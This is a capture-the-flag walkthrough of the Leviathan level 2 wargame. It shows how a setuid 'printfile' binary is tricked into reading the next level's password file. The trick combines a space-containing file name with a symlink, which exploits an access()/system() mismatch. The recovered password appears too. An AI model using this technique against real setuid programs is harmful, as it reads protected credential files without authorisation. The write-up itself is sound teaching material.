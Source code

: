 # Leviathan 2 - Walkthrough

inside the home directory there is a setuid elf called `printfile`, owned by leviathan3.
It requires an argument, so I gave it `/etc/leviathan_pass/leviathan3` and:
```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Welll...
Running ltrace proves us that it is actually running a `/bin/cat`, and runs `access` right before.
What is `access`?

from the man of `access`:
 Warning:  Using  these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole,
       because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use  of  this  system
       call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID
       and then call open(2).)
	   
Interesting.. There is a security hole here.

Let's do a tmux.
in one terminal, we'll create a file `/tmp/leviathan2/my_file` and grant it full permissions.
in the second terminal, we'll run gdb with `./printfile /etc/leviathan2/my_file`, and put a breakpoint after a successful access check.
Then, we will delete `/tmp/leviathan2/my_file` and create a symlink instead to `/etc/leviathan_pass_leviathan3`:
`ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my_file`

failed :(

Let's try another thing. `access` checks the full path, while `cat` checks the first argument.
So we'll create a file filled with space, where the first one is a symlink with full permissions to `/etc/leviathan_pass/leviathan3`:

```
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my
leviathan2@leviathan:~$ ls /tmp/leviathan2
my  my file
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
ls: cannot access '/tmp/leviathan2': No such file or directory
leviathan2@leviathan:~$ ls -la /tmp/leviathan
ls: cannot access '/tmp/leviathan': No such file or directory
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
ls: cannot access '/tmp/leviathan2': No such file or directory
leviathan2@leviathan:~$ mkdir /tmp/leviathan2 && touch /tmp/leviathan2/my\ file
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
total 268
drwxr-sr-x   2 leviathan2 root   4096 Dec 16 19:20 .
drwxrws-wt 194 root       root 266240 Dec 16 19:20 ..
lrwxrwxrwx   1 leviathan2 root     30 Dec 16 19:20 my -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Dec 16 19:20 my file
leviathan2@leviathan:~$ ./printfile /tmp/leviathan2/my\ file
Ahdiemoo1j 
```

WORKED! 

```leviathan2@leviathan:~$ ltrace ./printfile /tmp/leviathan2/my\ file
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/leviathan2/my file", 4)                                                                  = 0
snprintf("/bin/cat /tmp/leviathan2/my file"..., 511, "/bin/cat %s", "/tmp/leviathan2/my file")        = 32
geteuid()                                                                                             = 12002
geteuid()                                                                                             = 12002
setreuid(12002, 12002)                                                                                = 0
system("/bin/cat /tmp/leviathan2/my file".../bin/cat: /tmp/leviathan2/my: Permission denied
/bin/cat: file: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                = 256
+++ exited (status 0) +++
```